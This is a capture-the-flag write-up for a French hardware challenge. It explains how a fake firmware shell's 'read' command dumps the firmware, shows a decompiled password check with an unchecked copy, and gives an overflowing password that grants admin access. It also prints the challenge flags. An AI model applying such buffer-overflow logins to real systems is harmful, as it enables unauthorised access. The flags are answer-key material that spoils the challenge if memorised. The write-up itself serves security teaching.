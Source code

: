 ## Hardware challenge - Second part

### Catégorie 

Hardware 

### Points 

1000

### Format du flag 

Flag{...}

### Description

Honneur et gloire vous reviennent, valeureux champion ! Vous avez franchi 
avec bravoure le seuil de cet édifice numérique. À présent, il vous faut 
conquérir le trône de l'administrateur pour gouverner cet empire digital. 
Quêtez donc un stratagème, une ruse de guerre pour prouver votre droit de 
commandement. Conseil de sage: explorez les arcanes de l'application, utilisez 
ses sortilèges pour restaurer ce qui fut jadis perverti et corrompu. Là, dans 
les entrailles de cette bête de chiffres, peut-être dénicherez-vous la clef 
de votre ascension.

### Writeup

Once the first part of the challenge is solved, challenger will face a minimal 
fake shell like this:

``` 
**********************************************************************
          Welcome To Jeanne D'HACK OS Command Line Interface
                    Flag{H4rdw4r3_H4ck1n6_15_Fun}
**********************************************************************

For a list of supported command, type 'help'.
> help
Here is the list of available commands:
help		Print this help
status		Print current status of Jeanne D'HACK OS
read[addr] [len]	Read len bytes of memory starting at addr (usefull for debug)
write		Write to the memory
admin		Authentifcate as administrator
flag		Print the flag of the admin
exit		Exit command line interface
>
```

Now they can enter various commands including the `read` command that can help them 
to dump the entire firmware including the check function. Below there is an example
to read the firmware.

``` 
> read
Address (hex): 0x117F4
Size (hex): 0x100
80 b5 a0 b0 00 af 00 23
fb 67 14 48 00 f0 ce f8
4f f0 ff 32 4f f0 ff 33
39 1d 11 48 0f f0 9c fb
39 1d 07 f1 44 03 40 22
18 46 10 f0 c6 fb 4f f4
40 30 10 f0 77 fb 02 46
07 f1 44 03 4f f4 40 31
18 46 10 f0 7f fb 03 46
00 2b 01 d1 01 23 fb 67
f9 6f 0b 46 18 46 80 37
bd 46 80 bd 20 58 02 00
f0 09 00 20 01 48 0f f0
7b bb 00 bf 2c 58 02 00
70 b5 0c 4e bd f8 10 50
0b 49 10 46 32 68 1c 46
eb 18 93 42 29 44 06 dd
52 1b 10 f0 96 fb 34 68
64 1b 20 46 70 bd 22 46
10 f0 8f fb 00 23 33 60
f7 e7 00 bf 10 28 00 20
98 47 00 20 2d e9 78 41
10 4d 1c 46 2b 68 23 44
20 2b 90 46 17 dc 0e 4e
0e 49 06 22 30 46 10 f0
78 fb 22 46 41 46 b0 1d
10 f0 73 fb a0 1d 0a 49
02 22 30 44 10 f0 6d fb
2b 68 07 33 23 44 2b 60
20 46 bd e8 78 81 00 24
fa e7 00 bf 10 28 00 20
98 47 00 20 45 58 02 00
>
```

The `check_admin` function performs the following: 
``` C 
undefined4 check_admin(void)

{
  undefined4 pass_len;
  int equal;
  undefined buf1 [64];
  undefined buf2 [56];
  undefined4 res;
  
  res = 0;
  printf(PTR_s_Password:_00011850);
  scanf(DAT_00011854,buf1,0xffffffff,0xffffffff);
  memcpy(buf2,buf1,0x40);
  pass_len = strlen(0x30000);
  equal = strncmp(buf2,0x30000,pass_len);
  if (equal == 0) {
    res = 1;
  }
  return res;
}
```

This function will check for a password that is not accessible and which is not possible to 
brute force. But there is a very simple overflow during the copy that allow to change the value
of the return value. One can log as admin with the following password:

``` 
> admin
Password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Sucess
> flag
Welcome back Admin! Here is your flag:
Flag{Buff3r_0v3rfl0w_4r3_345y}
>
```


